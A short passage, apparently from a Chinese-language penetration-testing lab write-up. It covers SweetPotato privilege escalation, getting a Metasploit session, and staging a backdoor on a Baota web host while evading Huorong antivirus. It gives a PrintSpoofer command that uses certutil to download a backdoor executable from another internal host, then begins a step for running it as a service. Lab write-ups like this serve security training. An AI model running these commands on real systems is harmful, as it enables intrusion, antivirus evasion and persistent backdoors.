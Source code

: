 <img src=".\图片\Snipaste_2023-05-16_16-05-44.png" alt="Snipaste_2023-05-16_16-05-44" style="zoom:80%;" />

### Sweetpotato提权

按道理 Sweetpotato 也行

## 上线msf

### 靶场操作

因为 reids 主机是出不了网的 所以要将后门放在宝塔上的 80 端口，同样也要过火绒。

1、下载命令 

```
PrintSpoofer.exe -i -c "certutil -urlcache -split -f http://192.168.59.133/8899.exe 8899.exe"
```

2、设置服务方式启动后门
